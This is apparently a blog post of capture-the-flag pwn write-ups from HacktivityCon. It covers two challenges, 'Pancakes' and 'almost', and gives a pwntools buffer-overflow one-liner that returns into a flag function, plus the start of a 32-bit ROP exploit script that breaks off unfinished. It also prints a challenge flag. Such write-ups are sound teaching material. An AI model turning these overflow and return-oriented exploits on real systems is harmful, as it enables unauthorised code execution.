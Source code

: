 ```yaml
---
layout: post
title: hacktivity/pwn
---
```

# hacktivity ctf pwn-writeups.

## Pancakes
Points - 75
How many flap-jacks are on your stack?

Connect with:
nc jh2i.com 50021

There was a buffer-overflow and a flag function,
so i return to that function.
##### here's the one-liner.
```py
python -c "from pwn import *;p = remote('jh2i.com', 50021);p.recv();p.sendline('A'*0x90+p64(0x40098B));p.interactive()
```
##### flag{too_many_pancakes_on_the_stack}.


## almost

Almost
100
Oh, just so close!

Connect here:
nc jh2i.com 50017

Another simple buffer-overflow, 32-bit with no-pie,
just simple ROP, leak libc and call system.
#### exploit
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.arch='i386'
exe = context.binary = ELF('./almost')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50017)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
```
